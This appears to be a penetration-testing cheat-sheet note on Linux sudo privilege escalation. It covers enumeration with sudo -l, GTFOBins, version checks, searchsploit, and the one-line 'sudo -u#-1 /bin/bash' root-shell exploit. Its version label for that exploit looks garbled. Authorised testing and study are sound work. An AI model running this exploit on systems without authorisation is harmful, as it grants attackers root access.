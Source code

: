 ```yaml
---
id: User Privileges
aliases: []
tags: []
---
```


# User Privileges

## Sudo

### Sudo commands

Check which commands the current user may run

```sh
sudo -l
```

Run command as `user`

```sh
sudo -u user /bin/echo Hello World!
```

The found command(s) may be exploited with [GTFOBins](https://gtfobins.github.io/)

### Sudo version

Check sudo version for vulnerabilities

```sh
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
```

### Sudo vulnerabilities

Search Sudo version for public exploits

#### Searchsploit

```sh
searchsploit sudo
```

#### Sudo < v1.28

Run sudo

```sh
sudo -u#-1 /bin/bash
```
